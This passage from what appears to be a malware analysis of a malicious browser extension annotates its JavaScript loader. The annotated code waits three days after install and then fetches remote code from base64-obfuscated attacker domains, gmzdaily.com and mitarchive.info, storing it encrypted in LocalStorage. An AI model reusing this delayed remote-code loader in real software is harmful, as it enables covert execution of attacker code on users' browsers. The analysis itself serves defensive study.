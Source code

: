 
> The code in *1.js* also contains a bunch of unused functions. The only function that will be executed in the unpacking process is `misNlJGu()`.

### Step 4

The execution of the code in *2.js* on opening each new tab now waits for 3 days before downloading scripts from either `https://gmzdaily.com/ext/qm.php?f=svr` or `https://mitarchive.info/ext/qm.php?f=svr`. This downloaded script (*3.raw.js*) is then encrypted to prevent easy identification before it is stored in LocalStorage under a key named `dipLstCd666`.

[***Scripts/2.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/2.js): [lodeInsDt()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/2.js#L14), [LdRmtSvrCd()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/2.js#L73), [SvRmtSvrCd()](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Scripts/2.js#L95)

```javascript
// RAIN: Reformatted for clarity
function lodeInsDt() {
  var a = localVals.InsDt6;  

  if (a) {  // RAIN: Installation timestamp set
    a = ((new Date).getTime() - a) / 1000 / 3600 / 24;

    if (3 > a) {  // RAIN: If less than 3 days
      loderlog(a + '<3 deng...')  
    } else {
      // RAIN: If "Need Fetch Server Code" (has randomization built-in),
      // "Load Remote Server Code". The TRUE argument here results in the
      // code first attempting to retrieve from gmzdaily.com.
      if (NdFtchSvrCd()) { LdRmtSvrCd(!0) }

      // RAIN: "Execute Remote Server Code"
      ExRmtSvrCd();
    }
  } else {
    loderlog('local unavailable, use cloud now...');
    ftInsDt6();  // Sets installation timestamp
  }
}

// RAIN: "Load Remote Server Code". Reformatted for clarity
function LdRmtSvrCd(a) {
  try {
    var b = new XMLHttpRequest;
    b.onreadystatechange = function () {
      if (b.readyState == 4) {
        if (200 == b.status) {
          SvRmtSvrCd(b.responseText);  // RAIN: "Save Remote Server Code"
        } else {
          a && LdRmtSvrCd(!1));  // RAIN: If gmzdaily.com fails, load the other
        }
      }
    };
    b.onerror = function () { a && LdRmtSvrCd(!1) };  // RAIN: If gmzdaily.com fails, load the other
    b.onprogress = function () { };

    // RAIN: "https://gmzdaily.com/ext/qm.php?f=svr" Base-64 encoded
    var c = atob('aHR0cHM6Ly9nbXpkYWlseS5jb20vZXh0L3FtLnBocD9mPXN2cg==');
    // RAIN: "https://mitarchive.info/ext/qm.php?f=svr" Base-64 encoded
    a || (c = atob('aHR0cHM6Ly9taXRhcmNoaXZlLmluZm8vZXh0L3FtLnBocD9mPXN2cg=='));

    localVals.dipLstSig666 && 0 == c.includes('&c=') && (c = c + '&c=' + localVals.dipLstSig666);
    loderlog('jia zai ' + c);  // RAIN: "jia zai" means "load" in Mandarin
```